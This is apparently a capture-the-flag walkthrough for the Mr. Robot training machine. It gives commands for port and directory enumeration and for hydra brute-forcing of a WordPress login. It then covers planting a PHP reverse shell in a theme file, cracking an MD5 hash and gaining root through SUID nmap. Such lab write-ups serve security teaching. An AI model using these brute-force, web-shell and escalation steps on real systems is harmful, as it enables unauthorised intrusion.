 # 1 Hack the machine

## Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

### What is key 1?

Hint: Robots

This one is pretty easy, we could easily brute force it just by going into `http://<IP>/robots.txt`, but let's do it properly

1. First enumerate the server with nmap

```bash
nmap -p- -Pn <IP>
```

- `-p-`: Allow us to scan all 65535 TCP ports
- `-Pn`: Skips the host discovery process (ping scan)

[SCREEN01]

2. Enumerate directories with gobuster

```bash
gobuster dir -u http://<IP> -w /root/Tools/wordlists/dirbuster/directory-list-1.0.txt
```

- `-u`: Specifies the URL to scan
- `-w`: Specifies the wordlist file used for brute-forcing

3. Now that we have officially found it - go to `http://<IP>/robots.txt`. Here we can see two more paths: `fsocity.dic` and `key-1-of-3.txt`. The second one in `http://<IP>/key-1-of-3.txt` contains first key.

### What is key 2?

Hint: There's something fishy about this wordlist... Why is it so long?

The `fsocity.dic` looks like a credentials list

1. While enumerating with gobuster we have also found `http://<IP>/wp-login.php`. When trying to login with random credentials, this returns, a handy error saying '**ERROR: Invalid username**' - thanks to this we can prepare list of valid usernames

2. But first things first, the list contains duplicates so clean it up a bit:

```bash
sort fsocity.dic | uniq -d > fsocity-unique.dic
sort fsocity.dic | uniq -u >> fsocity-unique.dic
wc -w fsocity-unique.dic
```

- `-d`: Outputs lines that appear multiple times
- `-u`: Outputs lines that appear exactly once
- `-w`: Count words

3. While logging in to `http://<IP>/wp-login` in DevTools -> Network we can see the Request parameters

[SCREEN02]

4. hydra payload time:

```bash
hydra -L fsocity-unique.dic -p test <IP> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username" -t 30
```

- `-L`: Specifies a list of usernames to try from the file
- `-p`: Uses a single password for all attempts
- `-t`: Number of parallel connections to use for the attack

[SCREEN03]

5. With the correct username, the error changes to '**ERROR: The password you entered for the username is incorrect.**'

```bash
hydra -l elliot -P fsocity-unique.dic <IP> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -t 30
```

- `-l`: Specifies a single username to use for all attempts
- `-P`: Specifies a list of passwords to try from the file
- `-t`: Number of parallel connections to use for the attack

[SCREEN04]

6. After logging in, set the netcat listener, get php reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), and paste to archive.php in Appearance -> Editor view. Update file (remember to change `$ip` and `$port`) and go to the `http://<IP>/wp-content/themes/twentyfifteen/archive.php` to activate the reverse shell

```bash
nc -lvnp 4444
```

- `-l`: Listen mode
- `-v`: Verbose output
- `-n`: Skip DNS lookup
- `-p`: Specify the port number to listen on

[SCREEN05]

7. In home/robot there are two files `key-2-of-3.txt` and `password.raw-md5`. Unfortunately we don't have access premission to access second flag as of now, but we can crack the MD5 password and try as a robot user

```bash
ls -la home/robot
cat home/robot/key-2-of-3.txt
cat home/robot/password.raw-md5
```

[SCREEN06]

8. Crack the password using [Crack Station](https://crackstation.net/) and login as robot and get the flag

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
su robot
pwd
cat home/robot/key-2-of-3.txt
```

[SCREEN07]

### What is key 3?

Hint: nmap

1. Search for files with special permissions. These are files that always execute as the user who owns the file, regardless of the user passing the command. Nmap is on the list.

```bash
find / -perm -u=s -type f 2>/dev/null
```

[SCREEN08]

2. Check [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/) for nmap, go to the nmap directory and follow the instructions

```bash
cd /usr/local/bin
nmap --interactive
!sh
cat /root/key-3-of-3.txt
```

[SCREEN09]
